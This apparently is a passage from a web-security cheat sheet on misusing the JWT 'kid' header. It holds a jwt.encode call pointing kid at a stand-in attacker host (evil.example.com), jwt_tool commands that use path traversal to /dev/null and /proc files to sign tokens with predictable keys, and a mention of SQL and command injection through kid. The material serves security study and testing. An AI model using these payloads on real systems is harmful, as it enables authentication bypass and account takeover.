 The "kid" (key ID) claim in a JSON Web Token (JWT) is an optional header parameter that is used to indicate the identifier of the cryptographic key that was used to sign or encrypt the JWT. It is important to note that the key identifier itself does not provide any security benefits, but rather it enables the recipient to locate the key that is needed to verify the integrity of the JWT.

* Example #1 : Local file
    ```json
    {
    "alg": "HS256",
    "typ": "JWT",
    "kid": "/root/res/keys/secret.key"
    }
    ```

* Example #2 : Remote file
    ```json
    {
        "alg":"RS256",
        "typ":"JWT",
        "kid":"http://localhost:7070/privKey.key"
    }
    ```

The content of the file specified in the kid header will be used to generate the signature.

```js
// Example for HS256
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  your-256-bit-secret-from-secret.key
)
```

The common ways to misuse the kid header:
* Get the key content to change the payload
* Change the key path to force your own
    ```py
    >>> jwt.encode(
    ...     {"some": "payload"},
    ...     "secret",
    ...     algorithm="HS256",
    ...     headers={"kid": "http://evil.example.com/custom.key"},
    ... )
    ```

* Change the key path to a file with a predictable content.
  ```ps1
  python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
  python3 jwt_tool.py <JWT> -I -hc kid -hv "/proc/sys/kernel/randomize_va_space" -S hs256 -p "2"
  ```

* Modify the kid header to attempt SQL and Command Injections


## Labs 
